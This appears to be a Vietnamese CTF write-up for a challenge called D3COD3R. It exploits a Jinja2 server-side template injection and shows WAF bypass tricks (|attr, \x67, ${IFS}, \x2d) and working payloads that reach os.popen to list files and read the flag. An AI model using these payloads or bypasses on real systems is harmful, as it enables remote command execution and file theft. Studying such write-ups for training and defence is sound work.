 # D3COD3R

## Background

---

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jinja2-python/

https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

## SSTI discovery

---

- Chúng ta phát hiện được rằng chương trình có lỗ hỏng SSTI khi truyển chuỗi Base64 `e3snYScudXBwZXJ9fQ==` ( {{'a'.upper}} ) vào Decoder field của chương trình.

![img](images/test_upper.png)

## SSTI exploit and bypass WAF

---
- Dựa vào một số input để xác định được các kí tự bị filtered bởi WAF:
> - '.' có thể bypass bằng |attr
> - 'g' có thể bypass bằng \x67
> - space có thể bypass bằng ${IFS}
> - '-' có thể bypass bằng \x2d

> Chú ý: Những payload dưới cần encode base64 trước rồi mới đưa vào phần decode.

- Đầu tiên, Chúng ta sử dụng lệnh sau để hiển thị tất cả các class.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()}}
```

![img](images/list_class.png)

- Đến đây, chúng ta có thể tìm được ví trí của class mà chúng ta đang cần. Class đó là `os._wrap_close` nằm ở vị trí 132.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)}}
```

![img](images/os_wrap_close.png)

- Tiếp theo, ta gọi đến 1 module trong class `os._wrap_close` nhằm thực thi os command. Ở đây mình sẽ thử với `ls -la`

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('ls${IFS}\x2dla')|attr('read')()}}
```

![img](images/list_file.png)

- Ta phát hiện có file flag. Cuối cùng, ta sử dụng payload sau để đọc được file flag trên.

```
{{()|attr('__class__')|attr('__base__')|attr('__subclasses__')()|attr('__\x67etitem__')(132)|attr('__init__')|attr('__\x67lobals__')|attr('__\x67etitem__')('__builtins__')|attr('__\x67etitem__')('__import__')('os')|attr('popen')('cat${IFS}fla\x67')|attr('read')()}}
```

![img](images/flag.png)

---

> flag : `Wanna.One{we_wish_u_a_merry_ch1rsmas:3}`

---
